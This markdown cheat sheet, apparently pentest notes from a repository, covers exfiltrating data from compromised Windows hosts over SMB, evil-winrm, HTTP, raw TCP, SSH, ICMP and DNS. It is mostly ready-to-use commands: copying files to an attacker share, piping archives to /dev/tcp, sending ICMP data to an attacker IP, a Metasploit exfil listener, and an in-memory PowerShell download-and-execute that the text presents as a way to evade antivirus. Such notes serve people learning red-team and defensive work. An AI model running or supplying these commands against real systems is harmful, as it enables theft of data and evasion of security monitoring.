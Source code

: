 ```yaml
---
title: Windows data exfiltrator notes
---
```


- [1. Simple file transfer](#1-simple-file-transfer)
  - [1.1. SMB (two ways)](#11-smb-two-ways)
  - [1.2. Evil-WinRM (two ways)](#12-evil-winrm-two-ways)
  - [1.3. HTTP (attacker -\> victim)](#13-http-attacker---victim)
- [2. TCP socket](#2-tcp-socket)
- [3. SSH protocol](#3-ssh-protocol)
- [4. HTTP(S) protocol](#4-https-protocol)
- [5. ICMP](#5-icmp)
- [6. DNS](#6-dns)

## 1. Simple file transfer

[Great post about Windows file transfers for hackers](https://juggernaut-sec.com/windows-file-transfers-for-hackers/).

### 1.1. SMB (two ways)
Using local SMB server (running on the attacker's OS) an attacker is able transfer files in both ways:

```bash
# Run SMB server
impacket-smbserver -smb2support -username <username> -password <password> <share-name> <share-path>
```

```powershell
# Transfer file from the victim to the attacker
copy <local-file> \\<attacker-ip>\<share>\

# Transfer file from the attacker to the victim
copy \\<attacker-ip>\<share>\<file> <local-path>
```

### 1.2. Evil-WinRM (two ways)
The `evil-winrm` tool is able to perform file transfer out of the box if only session is established.

```bash
> download <file>
> send <file>
```

### 1.3. HTTP (attacker -> victim)
Attacker:

```bash
python -m http.server <PORT>
```

Victim:

```powershell
# Download and save
Invoke-WebRequest <URL> -OutFile <FILE>
```

There's a method to download a PS script and run it without touching the disk (directly from memory). It's used to avoid antiviruses and so on.

```powershell
iex (New-Object Net.WebClient).DownloadString("<URL_TO_SCRIPT.ps1>")
```

## 2. TCP socket
This kind of exfiltration is not recommended in a well-secured environments. Non-standard TCP protocol can be detected easily.

Listener (attacker):

```bash
# Receive data and save to file
nc -lvnp <PORT> > /path/to/file

# Decode and decompress data
dd conv=ascii if=<FILE> | base64 -d > file.tar
tar xvf file.tar
```

Sender (victim):

```bash
# Send compressed and encoded data
tar zcf - <DIR> | base64 | dd conv=ebcdic > /dev/tcp/<IP>/<PORT>
```

## 3. SSH protocol
SSH establishes a secure channel because all transmitted data is encrypted. It's not possible to sniff the unencrypted content.

Sender (victim):

```bash
# Send a file via ssh
tar cf - <DIR> | ssh <HOST> "cd /tmp/; tar xpf -"
```

## 4. HTTP(S) protocol
Exfiltration data through the HTTP protocol is one of the best options because it is hard to distinguish between legitimate and malicious HTTP traffic. Additionally, a POST request data is not stored in log files, cache or any other history.

## 5. ICMP
ICMP packet has optional `data` field where the sensitive data can be stored and transmitted.

Listener (attacker): `Metasploit` framework has built-in module to capture malicious ICMP sequence.

```bash
> use auxiliary/server/icmp_exfil
# Omit outgoing ICMP packets
> set BPF_FILTER icmp and not src <ATTACKER_IP>
> set INTERFACE eth0
> run
```

Sender (victim): we can use the `nping` tool which part of the Nmap package. The ICMP data sequence for the Nmap listener is initialized sending the `BOF<filename>` string.

```bash
# Initialize the ICMP sequence
sudo nping --icmp -c 1 <ATTACKER_IP> --data-string "BOFfile.txt"
# Send data
sudo nping --icmp -c 1 <ATTACKER_IP> --data-string "<DATA>"
# End of the sequence
sudo nping --icmp -c 1 <ATTACKER_IP> --data-string "EOF"
```

## 6. DNS
DNS is not a transport protocol and it's basis of the entire internet so it's not usually monitored. Fully Qualified Domain Name (FQDN) can be at most 255 characters long (including `.` separators). The subdomain part must not exceed 63 characters. The trick is to transfer data using the subdomain part to the controlled (malicious) DNS server.

On the malicious DNS server capture any incoming UDP/53 packet:

```bash
tcpdump -i eth0 udp port 53 -v
```
